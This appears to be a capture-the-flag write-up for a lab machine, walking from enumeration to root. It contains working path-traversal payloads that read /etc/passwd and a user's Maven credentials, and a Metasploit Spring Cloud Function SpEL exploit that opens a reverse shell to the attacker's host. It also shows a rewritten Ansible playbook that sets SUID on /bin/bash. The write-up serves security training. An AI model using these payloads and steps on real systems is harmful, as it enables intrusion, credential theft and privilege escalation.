

## Initial Enumeration
Initial nmap:
```
# Nmap 7.92 scan initiated Sat Mar 11 16:01:55 2023 as: nmap -sCV -A -oN nmap_initial.txt 10.10.11.204
Nmap scan report for 10.10.11.204
Host is up (0.028s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ca:f1:0c:51:5a:59:62:77:f0:a8:0c:5c:7c:8d:da:f8 (RSA)
|   256 d5:1c:81:c9:7b:07:6b:1c:c1:b4:29:25:4b:52:21:9f (ECDSA)
|_  256 db:1d:8c:eb:94:72:b0:d3:ed:44:b9:6c:93:a7:f9:1d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 11 16:02:11 2023 -- 1 IP address (1 host up) scanned in 16.07 seconds
```

We see a main page at port 8080 with a few pages immediately accessible:
`10.10.11.204:8080/blogs`
`10.10.11.204:8080/upload`
`10.10.11.204:8080/register`

Register is dead:



Blogs is not very interactive. However, uploads lets us upload image files only.

In burp, a little exploration shows we can upload any file that ends in a .jpg or .png or other image extension.
Trying to upload rev shell with name shell.php.png result is an image display error:


After trying a few things, looking back in burpsuite or `curl` we see that our injected code is reflected back to us:

```bash
$ curl -v http://10.10.11.204:8080/show_image?img=shell.php.png
*   Trying 10.10.11.204:8080...
* Connected to 10.10.11.204 (10.10.11.204) port 8080 (#0)
> GET /show_image?img=shell.php.png HTTP/1.1
> Host: 10.10.11.204:8080
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 200 
< Accept-Ranges: bytes
< Content-Type: image/jpeg
< Content-Length: 5493
< Date: Tue, 04 Jul 2023 20:24:18 GMT
< 
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.

```

So, the reason it doesn't show in firefox browser is because the header content-type describes image/jpeg, then the data described is plaintext. The browser tries to display an image from the information, which obviously doesn't work.

The image url is very interesting, as it might allow for directory traversal, leading to unintended file reads: `http://10.129.34.82:8080/show_image?img=shell.php.png`. Looking for /etc/passwd:
```bash
$ curl -v http://10.10.11.204:8080/show_image?img=../../../../../../etc/passwd
*   Trying 10.10.11.204:8080...
* Connected to 10.10.11.204 (10.10.11.204) port 8080 (#0)
> GET /show_image?img=../../../../../../etc/passwd HTTP/1.1
> Host: 10.10.11.204:8080
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 200 
< Accept-Ranges: bytes
< Content-Type: image/jpeg
< Content-Length: 1986
< Date: Tue, 04 Jul 2023 20:28:36 GMT
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
* Connection #0 to host 10.10.11.204 left intact
```

## Foothold
### Enumeration with arbitrary file reading
From here we find two users on the box, frank and Phil.

Upon further inspection, I learned that the query can actually output the contents of folders, which is unusual for this type of vulnerability. In most cases, if the query is not a file that exists it will return an error.
```
$ curl http://10.10.11.204:8080/show_image?img=../../../../../../home/frank/
.bash_history
.bashrc
.cache
.local
.m2
.profile
```

Hidden folders are shown as well, which may or may not come in handy.

After exploring the contents of Frank's home directory, we find an interesting file in `.m2/settings.xml`:

```
$ curl http://10.10.11.204:8080/show_image?img=../../../../../../home/frank/.m2/settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>

```

We now have login credentials for phil, with password `DocPhillovestoInject123`.

```bash
$ ssh phil@10.10.11.204         
The authenticity of host '10.10.11.204 (10.10.11.204)' can't be established.
ED25519 key fingerprint is SHA256:8MhHRO2LTR9G168dKL9vVmXYYb904O1gv5Eg1Q6njSU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.204' (ED25519) to the list of known hosts.
phil@10.10.11.204's password: 
Permission denied, please try again.
```

In an unexpected twist, the password doesn't seem to work for phil or for frank. Examining /etc/ssh/sshd_config, i see this:
```
# Authentication:

DenyUsers phil
#LoginGraceTime 2m
#PermitRootLogin prohibit-password
#StrictModes yes
#MaxAuthTries 6
#MaxSessions 10

#PubkeyAuthentication yes
```

Perhaps the password for phil is correct, but ssh authentication is locked for him? Perhaps we will revisit this once we have access through a different avenue.

### Leveraging CVE 2022-22963

Exploring the source code documents with the file read exploit:
```xml
$ curl http://10.10.11.204:8080/show_image?img=../../../../../../var/www/WebApp/pom.xml 
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
        <modelVersion>4.0.0</modelVersion>
        <parent>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-starter-parent</artifactId>
                <version>2.6.5</version>
                <relativePath/> <!-- lookup parent from repository -->
        </parent>
        <groupId>com.example</groupId>
        <artifactId>WebApp</artifactId>
        <version>0.0.1-SNAPSHOT</version>
        <name>WebApp</name>
        <description>Demo project for Spring Boot</description>
        <properties>
                <java.version>11</java.version>
        </properties>
        <dependencies>
                <dependency>
                        <groupId>com.sun.activation</groupId>
                        <artifactId>javax.activation</artifactId>
                        <version>1.2.0</version>
                </dependency>

                <dependency>
                        <groupId>org.springframework.boot</groupId>
                        <artifactId>spring-boot-starter-thymeleaf</artifactId>
                </dependency>
                <dependency>
                        <groupId>org.springframework.boot</groupId>
                        <artifactId>spring-boot-starter-web</artifactId>
                </dependency>

                <dependency>
                        <groupId>org.springframework.boot</groupId>
                        <artifactId>spring-boot-devtools</artifactId>
                        <scope>runtime</scope>
                        <optional>true</optional>
                </dependency>

                <dependency>
                        <groupId>org.springframework.cloud</groupId>
                        <artifactId>spring-cloud-function-web</artifactId>
                        <version>3.2.2</version>
                </dependency>
                <dependency>
                        <groupId>org.springframework.boot</groupId>
                        <artifactId>spring-boot-starter-test</artifactId>
                        <scope>test</scope>
                </dependency>
                <dependency>
                        <groupId>org.webjars</groupId>
                        <artifactId>bootstrap</artifactId>
                        <version>5.1.3</version>
                </dependency>
                <dependency>
                        <groupId>org.webjars</groupId>
                        <artifactId>webjars-locator-core</artifactId>
                </dependency>

        </dependencies>
        <build>
                <plugins>
                        <plugin>
                                <groupId>org.springframework.boot</groupId>
                                <artifactId>spring-boot-maven-plugin</artifactId>
                                <version>${parent.version}</version>
                        </plugin>
                </plugins>
                <finalName>spring-webapp</finalName>
        </build>

</project>
```

Here we can see the dependencies this webapp is built on. After exploring some potential vulnerabilities from the plugins listed, I eventually find a relevant exploit in spring boot cloud
Using metasploit module to exploit:
```bash
msf6 > search spring cloud

Matching Modules
================

   #  Name                                                     Disclosure Date  Rank       Check  Description
   -  ----                                                     ---------------  ----       -----  -----------
   0  auxiliary/scanner/http/springcloud_directory_traversal   2020-06-01       normal     No     Directory Traversal in Spring Cloud Config Server
   1  auxiliary/scanner/http/springcloud_traversal             2019-04-17       normal     No     Spring Cloud Config Server Directory Traversal
   2  exploit/multi/http/spring_cloud_function_spel_injection  2022-03-29       excellent  Yes    Spring Cloud Function SpEL Injection
   3  exploit/linux/http/spring_cloud_gateway_rce              2022-01-26       excellent  Yes    Spring Cloud Gateway Remote Code Execution

Interact with a module by name or index. For example info 3, use 3 or use exploit/linux/http/spring_cloud_gateway_rce

msf6 > use 2
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/spring_cloud_function_spel_injection) >
```
For this exploit we only need to set our attacker host as `LHOST` and the target host as `RHOST`. The default port, 8080, is conveniently the port used on this inject box.

After setting options in msfconsole, we get a shell as user frank.
```bash
msf6 exploit(multi/http/spring_cloud_function_spel_injection) > run

[*] Started reverse TCP handler on 10.10.14.167:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3045348 bytes) to 10.10.11.204
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Meterpreter session 1 opened (10.10.14.167:4444 -> 10.10.11.204:33702) at 2023-07-04 17:01:12 -0400

meterpreter > shell
Process 57134 created.
Channel 1 created.
whoami
frank
```

Now that we are in, we can try phil's password again:
```
su phil
Password: DocPhillovestoInject123
whoami
phil
```

From here we can grab `user.txt` in phil's home directory.
## Privilege Escalation
### Enumeration

Checking phil's `id`, we see he is in multiple groups:
```
id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
```


Looking for things owned by this group:
```
find / -group "staff" 2>/dev/null
/opt/automation/tasks
/root
/var/local
/usr/local/lib/python3.8
/usr/local/lib/python3.8/dist-packages
/usr/local/lib/python3.8/dist-packages/ansible_parallel.py
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/LICENSE
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/RECORD
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/entry_points.txt
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/WHEEL
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/METADATA
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/top_level.txt
/usr/local/lib/python3.8/dist-packages/ansible_parallel-2021.1.22.dist-info/INSTALLER
/usr/local/lib/python3.8/dist-packages/__pycache__
/usr/local/lib/python3.8/dist-packages/__pycache__/ansible_parallel.cpython-38.pyc
/usr/local/share/fonts
/usr/local/share/fonts/.uuid
```

It is strange to see the /root/ folder owned by staff. There is another folder owned by staff under `/opt/autmoation/`.
```
ls -al /opt/automation/
total 12
drwxr-xr-x 3 root root  4096 Oct 20  2022 .
drwxr-xr-x 3 root root  4096 Oct 20  2022 ..
drwxrwxr-x 2 root staff 4096 Jul  4 21:16 tasks
```
We can see the folder is group writable, and automation suggests these might be tasks automatically run by a user, perhaps root?

### Becoming root

```
ls
playbook_1.yml
cat playbook_1.yml
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
```

We can see this is an ansible playbook, and ansible themselves have [documentations on how one might elevate privileges for their playbooks](https://docs.ansible.com/ansible/latest/playbook_guide/playbooks_privilege_escalation.html). We might be able to invoke ansible as root, allowing us to execute any command specified in an ansible playbook. Rewriting the playbook contents, I have it designed to add SUID privileges to /bin/bash, allowing us to run a bash shell as root:

```
- hosts: localhost
  tasks:
  - name: PrivEsc
    ansible.builtin.shell:
      cmd: "chmod u+s /bin/bash"
```

After a few minutes, we can check the newly changed bash file, and become root:

```
ls -al /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
bash -t
whoami
frank
/bin/bash -p
whoami
root
```

## Reflection
Overall an interesting box, and an interesting spotlight to the power of ansible. The path to foothold was rather frustrating, the vulnerable plugin spring framework was deeply concealed. I spent a good deal of time exploring other potential vulnerabilities in spring boot that had seemed viable at the time.
